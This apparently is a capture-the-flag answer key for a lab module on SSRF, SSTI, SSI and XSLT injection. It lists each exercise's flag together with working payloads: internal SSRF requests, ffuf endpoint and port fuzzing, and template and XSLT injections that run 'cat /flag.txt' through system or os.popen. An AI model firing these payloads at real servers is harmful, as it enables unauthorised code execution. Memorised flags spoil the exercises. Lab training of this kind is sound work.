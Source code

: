 # Identifying SSRF

1. Exploit a SSRF vulnerability to identify an internal web application. Access the internal application to obtain the flag.

Answer: HTB{911fc5badf7d65aed95380d536c270f8}

Explanation: The rquest to the internal server and this request got executed. 

The request: dateserver=http://127.0.0.1/index.php&date=2024-01-01

# Exploiting SSRF

1. Exploit the SSRF vulnerability to identify an additional endpoint. Access that endpoint to obtain the flag.

Answer: HTB{61ea58507c2b9da30465b9582d6782a1}

Explanation:Fuzz

ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-small-words.txt -u http://10.129.34.114/index.php -X POST -H 'Content-Type: application/x-www-form-urlencoded' -d 'dateserver=http://dateserver.htb/FUZZ.php&date=2024-01-01' -fs 276,279

dateserver=http://dateserver.htb/admin.php&date=2024-01-01

# Blind SSRF

1. Exploit the SSRF to identify open ports on the system. Which port is open in addition to port 80?

Answer: 5000

Explanation: 

ffuf -w ports.txt -u http://10.129.245.15/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "dateserver=http://dateserver.htb:FUZZ/availability.php&date=2024-01-01" -fr 'Something went wrong!'

Request: dateserver=http://dateserver.htb:5000/availability.php&date=2024-01-01

Response: Date is unavailable. Please choose a different date!

# Identifying SSTI 

1. Apply what you learned in this section and identify the Template Engine used by the web application. Provide the name of the template engine as the answer.

Answer: Twig

Explanation: {{7*'7'}}

# Exploiting SSTI - Jinja2

Answer: HTB{295649e25b4d852185ba34907ec80643}

Explanation: Payload: {{ self.__init__.__globals__.__builtins__.__import__('os').popen('cat /flag.txt').read() }}

# Exploiting SSTI - TWIG

1. Exploit the SSTI vulnerability to obtain RCE and read the flag.

Answer: HTB{5034a6692604de344434ae83f1cdbec6}

Explanation: Payload: {{ ['cat /flag.txt'] | filter('system') }}

# Exploiting SSI Injection

1. Exploit the SSI Injection vulnerability to obtain RCE and read the flag.

Answer: HTB{81e5d8e80eec8e961a31229e4a5e737e}

Explanation: <!--#exec cmd="cat /flag.txt" -->

# Exploiting XSLT Injection

1. Exploit the XSLT Injection vulnerability to obtain RCE and read the flag. 

Answer: HTB{3a4fe85c1f1e2b61cabe9836a150f892} 

Explanation: Payload: <xsl:value-of select="php:function('system','cat /flag')" />

# Skill Assessment 

1. Obtain the flag

Answer: HTB{3b8e2b940775e0267ce39d7c80488fc8}

Explanation: http://truckapi.htb/?id%3D{{['cat${IFS}/flag.txt']|filter('system')}}